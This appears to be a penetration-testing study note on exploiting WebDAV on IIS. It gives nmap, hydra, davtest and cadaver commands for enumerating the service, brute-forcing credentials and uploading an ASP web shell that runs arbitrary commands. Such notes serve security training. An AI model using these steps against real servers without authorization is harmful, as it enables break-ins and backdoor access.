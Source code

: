 ### What is WebDAV ?

- WebDAV (Web-based Distributed Authoring and Versioning) is a set of extensions to the HTTP protocol which allow users to collaboratively edit and manage files on remote web servers.

- WebDAV essentially enables a web server to function as a file server for collaborative authoring.

- WebDAV runs on top Microsoft IIS on ports 80/443.

- WebDAV is not specifically made for IIS, it can be used with other web servers like Apache. 


### How to exploit WebDAV ?

- The first step of the exploitation process will involve identifying whether WebDAV has been configured to run on the IIS web server. 

- We can perform a brute-force attack on the WebDAV server in order to identify legitimate credentials that we can use for authentication. 

- After obtaining legitimate credentials, we can authenticate with the WebDAV server and upload a malicious .asp payload that can be used to execute arbitrary commands or obtain a reverse shell on the target. 

### Using `nmap` to further enumerate `http`

```
nmap -sV -p 80 --script=http-enum <target_ip>
```

- This can be used to find out if the webDAV directory exists and if there's any interesting folders.
- To access webDAV directory, we might require authorisation.

### Using `hydra` to bruteforce authentication

```
hydra -L <user-file> -P <pass-file> <target-ip> http-get /webdav/
```

### What is `DAVtest` ?


DAVTest tests WebDAV enabled servers by uploading test executable files to check what file formats are supported.

```
davtest -auth <user>:<pass> -url http://<ip>/webdav
```
*Use `-auth` if webdav directory is password protected.*

### How to use `cadaver`

Cadaver can be used to access the contents of `webdav` directory. It'll allow us to upload, download, edit or delete files from the directory.

```
cadaver http://<ip>/webdav
```

### Uploading a web shell using `cadaver` 

- We can upload a web shell to get a backdoor access to the web server. 

```
put /usr/share/webshells/asp/webshell.asp
```

- Path to webshells - `/usr/share/webshells`

- Now if we head back to the webdav directory which we opened in our browser, we can notice the `webshell.asp` webshell that we uploaded.
- We can then execute the webshell by clicking on it.
- The webshell will provide us with an input box.
- Next, we can input any desired commands for the specific operating system into the designated input box and initiate the execution by clicking "run."